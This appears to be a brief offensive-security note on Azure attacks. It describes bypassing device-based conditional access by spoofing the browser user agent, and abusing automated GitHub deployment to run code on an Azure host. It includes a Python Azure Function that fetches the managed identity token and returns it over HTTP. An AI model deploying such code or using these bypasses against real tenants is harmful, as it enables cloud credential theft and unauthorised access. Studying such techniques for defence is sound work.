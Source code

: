 ## Bypass device conditional access

There are some service principals that could be only accessible using determined devices, for example a mobile phone or an IP. In any case, after the token is created it can be used from anywhere.

![You cannot access this right now](imgs/20220427001616.png)  

There are other little tricks that allow to access a service principal protected by a conditional access policy, for example if we have a policy that only allows access from mobile phones, it can be bypassed changing the user agent in Chrome dev tools.

![User Agent: iPad pro](imgs/20220427001529.png)  

## Abusing GitHub to compromise Azure

If the deployment of GitHub code is automated it could be possible to leverage this to gain remote command execution in the Azure host and extract the token.

```python
import logging
import os

import azure.functions as func

def main(req: func.HttpRequest) -> func.HttpResponse:
    logging.info('Python HTTP trigger function processed a request.') 
    IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT'] 
    IDENTITY_HEADER = os.environ['IDENTITY_HEADER']

    cmd = 'curl "%s?resource=https://management.azure.com&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
    val = os.popen(cmd).read()

    return func.HttpResponse(val, status_code=200)
```
